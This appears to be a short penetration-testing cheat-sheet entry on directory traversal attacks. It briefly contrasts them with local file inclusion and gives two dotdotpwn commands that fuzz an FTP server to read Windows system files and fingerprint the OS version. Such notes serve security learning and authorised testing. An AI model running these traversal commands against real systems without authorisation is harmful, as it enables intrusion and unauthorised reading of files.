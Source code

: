 # Directory Traversal Attack

When the attacker is able to read files on the filesystem.

Differ from LFI in the aspect that LFI can execute code, while a Directory Traversal Attack cannot.

### dotdotpwn

It’s a very flexible intelligent fuzzer to discover traversal directory vulnerabilities in software such as HTTP/FTP/TFTP servers, Web platforms such as CMSs, ERPs, Blogs, etc.

```text
# Find Windows version using dotdotpwn:
dotdotpwn -m ftp -h 192.168.1.1 -b -t 1 -f windows/system32/eula.txt
dotdotpwn -m ftp -h 192.168.1.1 -b -t 1 -f windows/system32/prodspec.ini
```

